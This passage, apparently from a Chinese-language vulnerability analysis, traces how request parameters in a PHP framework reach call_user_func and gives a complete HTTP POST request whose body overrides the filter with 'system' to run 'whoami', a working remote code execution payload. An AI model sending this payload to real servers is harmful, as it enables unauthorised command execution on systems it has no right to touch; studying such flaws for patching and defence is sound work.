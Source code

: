 `$data`是前面传入的`$this->param`，类型是数组，所以经判断后会调用`array_walk_recursive()`函数，对`$data`中的每一个值调用`filterValue`函数，最终调用了`call_user_func`执行代码

因此当我们构造如下请求时，就会造成RCE

```
POST /?s=captcha HTTP/1.1
Host: 127.0.0.1
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="119", "Not?A_Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.199 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 86

_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=whoami
```

![Untitled](image/Untitled%2021.png)
